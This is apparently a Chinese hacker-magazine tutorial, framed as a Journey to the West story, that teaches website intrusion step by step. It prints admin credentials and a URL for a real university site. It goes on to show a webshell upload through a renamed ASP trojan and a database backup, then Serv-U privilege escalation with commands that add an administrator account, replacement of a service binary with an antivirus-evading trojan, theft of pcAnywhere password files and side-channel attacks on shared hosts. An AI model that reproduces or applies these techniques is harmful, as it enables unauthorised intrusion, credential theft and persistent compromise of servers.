

图4

唐僧和八戒几乎同时叫了出来：“有SQL注射漏洞！”

悟空呵呵一笑：“事实上，现在很多学校园网的状况非常不理想。当然，并非那些大学没有人才，而是他们懒得去做好每一台服务器的安全，所以有些公开的网站，往往一个学校所有的院系部门都在一台服务器上，只不过是各占一个目录而已。俗话说，林子大了，什么漏洞都有，所有院系挨个找肯定能找出漏洞的！”

```
WED http://www.cpu.edu.cn/shangyuan/list.asp?Unid=74
username: phoenix989
password: cy213311
```

## 小鸡快跑



图5

唐僧在一旁憋了半天没有作为，这下兴奋起来了，马上用该用户和密码登录后台，发现在发表文章的时候可以上传图片，并且有数据库备份的功能。于是将一个ASP木马改为gif后缀后上传了上去，如图6。



图6

得到图片的路径是 `http://www.cpu.edu.cn/shangyuan/Upfiles/200553087228.gif`，点确定备份。按照如图7填写。



图7

提示成功了，如图8。



图8

访问 `http://www.xxx.edu.cn/shangyuan/comm.asp` 就可以看到亲爱的海阳2006已经在等着我们了！如图9。



图9

在上传漏洞泛滥的今天，很多程序都已经杜绝了直接的上传漏洞了，不能直接上传ASP木马。可是，往往在进入后台以后，我们就可以有很大的发挥空间，比如这里用到的备份数据库得到webshell。一般的步骤都是将ASP木马，比如hy2006.asp，改名为hy2006.gif，就允许上传了。所以，进入后台后一定要想办法寻找可以上传的地方，木马赶紧上传上去以后再利用备份的办法获取webshell。当然，这只是一路思路而已，其实任何可以对文件进行操作（包括复制、移动、改名）的功能都应该是我们获取webshell的途径。比如DVBBS 7.1，现在就不允许在备份数据库的时候出现asp，可是还有恢复数据库的功能却没有做这个设置。所以我们应该灵活变通一下！好了，第一次给大家讲解，还希望大家喜欢。

八戒故意刁难道：“猴哥，为什么每次你都只拿了个webshell就停手了？俺们东北活菜鸟拿到了webshell都不知道可以做什么，你又不让我们改人家的主页，一点意思都没有……”悟空贼贼地笑了一下：“呆子，想要3389的肉鸡就直说嘛，现在就教给大家！”唐僧和沙僧一听到这话，不禁欢呼着抱在了一起：“我们等到花儿都谢了……”


所谓的3389肉鸡其实是一种习惯上的称呼。Windows 2000 Server有一种服务是终端服务，连接上去以后所有的操作就和在本机操作一样方便。本意是给管理员用于远程管理服务器的。不过事实上黑客对它的中意远远高于管理员。3389是这个终端服务默认的端口。在XP系统中，可以选择“开始→程序→附件→通讯→远程桌面连接”。打开远程桌面连接器，输入IP或者域名，点连接就可以看到登录界面了。如果对方的终端服务改了端口不在3389，那么就需要输入域名（或IP）加冒号、加端口号。如图10，输入用户名和密码就可以进去了。


图10

八戒激动起来了，捏住悟空的肩膀大声地吼着：“我要密码，快，给我密码！”悟空顺手抄起身旁的扫帚把八戒**（由于此处情节过于暴力，小编删掉500字！）然后踩着还躺在地下起不来的八戒：“要登录进去，要求有管理员权限的账号和密码。这也就意味着我们需要有很高的权限，而平时得到的webshell都是很低权限的。所以一般得到了webshell后我们都需要经过一个提升权限的过程。再使用得到的比较高权限的shell来自己加一个管理员。那么，用户名和密码都是自己定义的就不担心不知道。”唐僧：“嗯，2005年5期的X档案上，呆呆虫问题里说可以用pulist和findpass来获得管理员密码，可以吗？那不就不用提升权限了？”悟空摸摸唐僧的光头以表示对他看书仔细的鼓励：“事实上，findpass是需要有管理员权限才可以找出当前密码的，并且，这个方法到2003的系统效果不怎么样。而且，现在安装在2000的机器上，findpass不需要用到上面那两个工具。我给大家推荐一个小工具叫做mt.exe，一个工具就可以解决，用法是：`mt -findpass`。差点跑题了，我们还是回来看一看提升权限都有哪些办法！”沙僧从烟盒里找出一张皱巴巴的纸摊开在桌上，准备做笔记。悟空从百度上找出一篇《提升WEB权限终极9技巧》，一边评价道：“这个文章说有9种技巧，事实上里面有不少错误的地方。有兴趣的朋友可以自己用百度搜一下看看，我只解释事实上最有效的几种。首先要提出的是Serv-U提权。”

“几乎没有人入侵网站会不知道Serv-U了，Serv-U是一款非常棒的FTP服务软件。不过在这里我们只介绍如何判断对方是否开了FTP服务以提升权限的方法。”

“第一，在海阳2006的木马里有一项查看系统服务信息的，可以自己在那里找找，不过不一定很准，因为现在安装Serv-U的时候已经有了选择，可以不使用服务加载。所以有些服务器上安装了Serv-U并且运行着，在海阳中却看不到它。”

“大师兄，那你怎么判断的呢？”沙僧说。

“因为Serv-U提权要求有执行的权限，所以俺一般会点‘WScript.Shell程序运行器’，然后去执行 `netstat -an|find "43958"` 来检测。”如图11。



图11

唐僧迷惑了：“43958是什么？”

悟空解释道：“43958是Serv-U默认开的一个端口，用于本地管理FTP服务的。提权也靠这个，具体的原理不多说了，刚才在图中看到这个端口是打开的，是LISTENING，那么我们要用到的工具是 `su.exe`，用海洋马上传到服务器上。这里我放到了 `D:\Serv-U\` 这个目录下，命名为 `su.jpg`。”

> LoveAngel 对提权隐蔽性的讲解：将一个exe文件用jpg的格式放到服务器上的一个重要目的是躲避杀毒软件的追杀。因为有些杀毒软件不会对jpg文件进行检查，而这个后缀的改变并不会影响到文件的正常使用。

沙僧：“悟空哥哥，你为大家演示一遍吧！”

“大家直接看我的操作，这个工具的用法是：`su.exe '你的命令'`。在实际操作中，`su.exe` 要改为实际的完整路径，命令可以随意，但是不要太复杂，比如带有 `>` 这种管道符号的经常会失败。这里我写的是 `D:\Serv-U\su.jpg "net user wukong 123 /add"`（图12）。”



图12

“加了一个叫做wukong、密码为123的用户！”八戒不顾身上的伤疤还在痛着，兴奋地叫了出来。

悟空又敲了一个命令：`D:\Serv-U\su.jpg "net localgroup administrators wukong /add"`，将wukong加到管理员组中。然后告诉大家：“现在如果这台服务器开了3389，大家就可以直接去登录了。”


图13

WScript程序运行器却发现出错了，如图13。八戒巴巴地望着悟空，等待解释。

“这说明对方将WScript删掉了，可以试一下别的执行方式。但是这里提出了一个最基本的问题，Serv-U提权很大程度上需要有执行权限，如果连执行命令的权限都被拿掉了，那么就有些困难了。不过并不是没有办法。我们可以往serv-u所在的目录里找到 `ServUDaemon.ini` 打开看看。”如图14。



图14

“乱七八糟的是什么东西啊？”八戒总是没有耐心。

“这里是Serv-U的用户信息，仔细看的话你会发现它的规律。我们这里不讲太细，还是让LoveAngel博士告诉大家基本步骤。”

```
LoveAngel 的讲解：

[Domain1]
User1=xiaoban|0|0
User2=renshichu|0|0
...
User36=yy24|0|...
User37=wukong|0|0

[USER=wukong]
Password=*
HomeDir=c:\
Email=
RelPaths=1
TimeOut=600
Access1=C:\,RWAMELCDP
```

```
这里是用户信息和规则的说明，并在CMD中构造FTP命令执行：

ftp 520:520:520.520
wukong
123
quote site exec "net user wukong 123456 /add"
```

唐僧听到这话，赶紧屁颠屁颠去做测试了，结果这次更惨，连自己的主目录都跳不出去，根本找不到Serv-U的安装目录。忍不住抓狂起来：“悟空，为什么你教的方法都没有用啊！该不会是我仇家派你来故意整我的吧！看我不念紧箍咒！”

悟空：“哈哈，那破玩意上次有个收破烂的过来我早就当废铁卖给他了。不过不是我教你的方法没用，所有的方法都有局限的，要求对方存在漏洞才可以利用嘛，就像不是所有的网站都有上传或SQL注入漏洞一样。权限设置得好的服务器是可以避免上面的方法的。这时候我们要另谋出路。提权不光是有Serv-U，有时候要换一个角度思考问题，一台服务器，有些时候会同时支持...”

## 小鸡快跑

ASP 和 PHP。而 Windows 系统上的 PHP 如果没有注意设置，在默认情况下是有 system 权限的。如果你遇到的服务器正好是支持 PHP 的，可以传一个 PHP 木马上去。比如 PHPSPY，选择 WEBSHELL，然后在执行命令那个地方选择 system 函数，其实默认就是用 system 来执行的，后面写命令，比如 query user 来检查当前是否有管理员在线。这个命令需要管理员权限才可以执行。（如图15）

图15

“事实上，不是所有的服务器上都安装了终端服务的，所以有时候我们需要先检查一下。还是使用刚才提到的那个工具 mt，使用 mt -chkts 就可以看到结果了。”（如图16）

图16

“图16的结果是提示我们终端服务已经安装了，并且端口是在3389，如果没有安装的话，我们还可以用 mt -setupts 来安装，然后需要用 mt -reboot 使其生效。2003 的系统可以不需要重启，当然，我们也可以使用海阳2006来查看终端的端口。”（如图17）

图17

沙僧正好有一个 webshell 可以用 PHP 提权的，马上加了个用户登录进去了。（如图18）

图18

三个人乐得嘴都合不拢。这可是他们的第一只肉鸡呀。沙僧在硬盘里随便逛着：“哇！好大的硬盘啊，一个分区都有280G，并且都用得差不多了，哈哈，原来是个电影网站。这下爽了！咦？这个盘里怎么还有这么多网站？那要是坏人的话这样岂不是相当于入侵了 N 个网站了？”

悟空高兴地拍着沙僧：“嘿嘿，沙师弟你悟性真高！事实上这正是旁注式攻击的原理。假设 A、B 网站同在一个服务器，A 网站也许固若金汤，B 网站却有漏洞，那么我们先入侵了 B 网站，再提升权限进入 A 网站，这就是所谓的旁注攻击！”

唐僧疑惑了：“可是我们怎么知道哪些网站是在同一个服务器上的啊？”

图19

悟空：“这个很简单，假设我们要查 X档案的论坛和哪些网站在同一个服务器上，首先在 CMD 里 ping www.hackerxfiles.net，得到 X档案的 IP 是 61.152.251.213，那么我们访问：http://whois.webhosting.info/61.152.251.213，就可以看到所有和 X档案在同一服务器上的网站了。”（如图19）

八戒用那双笨拙的猪蹄子艰难地在键盘上敲出这些命令，结果敲了半天命令都没敲正确，于是恼火道：“猴哥，能不能介绍个工具来做这件事啊？太麻烦了！”

沙僧不等悟空解释就抢先说道：“这个我知道，5期的 X档案上介绍了一个工具叫旁注工具3.2，上面就有这个功能的。输入域名后点一下那个 >>> 按钮，就可以得到 IP 了，再点查询就都出来了。”（如图20）

图20

悟空忽然发现沙僧天生就适合做黑客，不过还是要补充两句：“沙师弟说得很对，事实上现在这方面的工具已经不少了，桂林老兵和教主都出过这方面的工具，这个旁注工具威力十分强大。上面提过了，只要 A 侵入和 A 在同一服务器的 B，如果可以提权的话就可以相当于入侵了 A，那么我们要找的 B 其实就是在查出来的同一服务器上的所有站点中最薄弱的一个站。而找漏洞的过程实际上就是前面提到的各种方法重复使用在这些站点上而已，周而复始！”

图21

八戒：“那还是好麻烦！”

悟空揪着八戒的耳朵：“学技术怎么可以怕麻烦呢？不过说实话，如果手工检测的话确实很麻烦的。所以，我们可以用旁注工具来批量检测哪些网站是否存在上传漏洞。还记得上传漏洞的文件一般是 upfile.asp 吧？当然，还有别的系统的上传文件名，工具上也都带有了。比如我们现在点一下网站批量检测，将所有的文件都选中，只需要点一下那个‘全选’的按钮。当然，如果有自己发现的文件也可以点添加增强进去，点‘开始’检测就开始检测了。如果发现了某个网址存在上传漏洞，也不用拿出老兵的工具，而是直接在上面点右键上传就可以了。”（如图21）

八戒拍着小猪蹄开心起来：“咱们的老百姓啊，今儿个真高兴！这个东西好方便啊！”

唐僧也把这个工具仔细端详了一下：“嗯，还有扫描数据库和后台的功能啊，这不是把猥琐的利用也加进来了么？”

悟空：“是的，仔细看还有的话，还会看到更多的功能。比如‘综合上传’是上传漏洞的利用，整合了几个不同系统专用的上传利用；‘SQL注入’是针对 ASP 下的注射。也不错，‘数据库管理’可以直接打开下载下来的数据库，方便那些没有装 Office 的朋友；‘破解密码’可以破解 MD5 加了密的密码和 Serv-U 的密码。还记得前面讲过打开 ServUDaemon.ini 看到的一大堆乱七八糟的东西吗？password 后面跟的就是每个用户的密码，这里的这个功能是专门来跑 Serv-U 的密码的。还有读 pcAnywhere 文件的密码的。”

“等等，大师兄，这个 pcAnywhere 是什么东西啊？”沙僧急了。

“这个嘛，pcAnywhere 是一款用途比较多的远程管理软件，软件是不错，只可惜它的密码是保存在 C:\Documents and Settings\All Users\Application Data\Symantec\pcAnywhere\ 这个目录下的，而这个目录在默认情况下是不允许所有人访问的。我们可以手工在 WEBSHELL 里输入这个目录，如果可以登录的话，会看到很多 cif 文件，这些文件就是保存了 pcAnywhere 登录账号和密码的文件。把它下载下来，使用‘破解 pcAnywhere 密码’这个功能就可以读出密码，然后自己装一个 pcAnywhere，就可以像 3389 登录那样管理这台服务器了。如图22、图23和图24。这也常常是一种提权方式。不过由于手头上一时没有这样的肉鸡就不做图示演示了，附赠一个动画教程，里面有别人做的演示。”

图22

图23

“哦，知道了，还要装个工具，真麻烦。大师兄，还有什么提升权限的思路吗？你说的我听明白了，不是一种什么特别的技巧，只不过是一种思路而已，基本技巧还是前面的方法。现在一台服务器上有个网站不是什么稀奇的事情，所以得到一个 webshell 确实没什么技术含量的，那提权还有什么思路吗？”沙僧俨然已经是一个高手了。

图24

“嗯，提权这个东西，说起来还有几种思路：一是利用 MSSQL 的 sa 用户；第二是替换服务的方法。这个需要详细解释一下，服务是系统启动时在启动前就加载的东西，并且是以很高权限去执行的，每个服务对应着一个文件。这个在用端口 2006 查看服务信息的时候就可以看到，如果该服务对应的目录我们可以跳转过去，并且有对该目录写入权限的话，我们将自己配置的木马替换掉原文件，那么系统下一次启动后就是我们收获的时候了！”

“这里举个例子，比如图25中的 MSSEARCH 服务，它对应的文件是 C:\Program Files\Common Files\System\MSSearch\Bin\mssearch.exe。

这个目录是受系统保护的，所以我们没有权限，不过我只是举个例子而已。如果它是在非系统盘下的话，这个保护就没有了，那么我们只需要将 mssearch.exe 改名为 mssearch2.exe（一般删不了，因为它正在运行中是不能删的，可是 Windows 却允许对正在运行的文件进行改名），再将自己的木马（最好是免杀的）改名为 mssearch.exe 后上传到该目录，等下一次启动后，MSSEARCH 服务启动的就是我们的木马了！”

图25

“为了能知道鸡儿什么时候上线，我们最好使用一个能上线通知木马，比如我这里使用的是我的好朋友蒋南克斯开发的冬日之恋个人版，这个是绝对的免杀！（如图26）”

“点‘生成服务端’就可以在当前目录下生成一个 server.exe，将它改名发到服务器上就可以了。”

图26

“网上盛传还有一种方法是在 C:\Documents and Settings\All Users\开始菜单\程序\启动 目录下写木马，也是要等重启后才能生效的，但是事实上默认情况下这个目录 webshell 的权限是不够的，除非有人刻意修改过该目录的权限设置。”

正说话间，八戒忽然一指屏幕上 QQ 信箱：“师兄师兄，你有新的信件哦，是不是哪个 MM 的情书啊？”

悟空尴尬地点开，却发现是上次替换服务的一台肉鸡重启了，木马执行后发出的自动上线通知。（如图27）

图27

于是大家一窝蜂涌了上来，抢着要玩这款可以端口复用穿透防火墙的木马，这一堂课也就这么结束了。

（本文涉及到的 MD5CRACK 3.1、mt.exe、su.exe、pcAnywhere、动画教程光盘有收录）

## X档案学堂

#### 网站入侵常用模式之扫描篇

今年的暑期似乎因为 WOW（魔兽世界）的推出更显得姗姗来迟，那庞大的场景、丰富的故事情节、个性鲜明的人物、惊心动魄的战斗……吸引得悟空亦化身名为“我家猫猫不吃粮”的女猎人加入到“美版西游记”的冒险中。

不想这“美版西游记”的冒险却使悟空郁闷万分：由于种族的歧视，所以即使是女性角色也骗不到可怜；由于骗不到可怜所以也就没有好装备；由于没有好装备所以更没有人愿意组队……

“希望今天能够咸鱼翻身吧。”悟空边攻击 WOW 客户端边想着。

运气不错，刚上线便有个叫“小猪”的玩家 M 语（就是发消息过来了呀），并不容分说地让悟空看了几件紫色和蓝色装备，什么“亚历山大的战斧”啊，什么“碎石护手”啊，“精确校准过的火枪”啊……真是看得悟空直流口水，可无奈身上连半个金币也没有。

“好东西啊！……”悟空叹了口气，正打算离开。

“我说猴哥，你一放假就躲在屋里就是为了弄这个？”小猪发话道，“害得我、师傅和老沙三人好找啊！”

MY GOD！还以为把网站入侵常规模式讲完就可以跟师弟们和师傅交差了，没想到的是他们经过几节课的学习对网络安全产生了强烈的兴趣，纷纷表示要从头开始学习网络安全，整天阴魂不散地缠着悟空，居然还准备追到游戏里面。

悟空好不生气，对着小猪咆哮道：“呆子，别来烦我，暑假里也该让我休息休息吧！”

小猪立马道别，并悠哉悠哉地呼呼：“这身装备本来是打算送给猴哥儿的，现在看来，我还是送到拍卖场去换几个钱吧……”

悟空立马换上一脸堆笑：“师弟，难得你一片好心，我要是不收下，怎么对得起你的这番心意，你说是不是？对了，你怎么升级这么快？俺老孙才49级，你就已经60级顶啦？”

“嗨！还不是因为要找你，我、师傅和老沙三人轮流练这个号，练的又是牧师，早就60级了。还特意去帮你刷了好多极品装备。现在看你这样，我还是都卖了算了。”小猪自言自语道。

悟空也急了，顾不上往日的傲慢：“别别别！千万别！留着，都留着啊。”

“那要看你怎么表现了，我们现在都在学堂教室里……”小猪言语暗藏嚣张。

“这呆子倒挺机灵。”悟空恋恋不舍地下线，一盏茶的功夫，已是到了学堂门口。

首先迎出来的是唐僧，唐僧摸摸昨天刚剃的光头：“悟空，你教的那些我们也掌握得差不多了，现在每次入侵就是上传一暴库->SQL注入->后台拿 shell->提权，或者是旁注找个 shell 提权，再跨目录黑网站。不用说，入侵一次累都累个半死。而且，我越入侵观音姐姐的机器，可她的电脑没有开 IIS，机器上没放有什么网站，根本就没办法玩嘛。入侵到底有没有简单一点的法儿啊？”

悟空点了一支“红金龙”（小编友情提示：吸烟有害健康！），吐出个烟圈：“事实上，前面教大家的是传说中的脚本入侵，WEB 攻击，又称 80 端口下的攻防。而玩真实大多是先从系统漏洞开始玩的，所以你们的起点稍微有点高了，因为在某些情况下，如果用系统漏洞来入侵的话，会简单很多。”

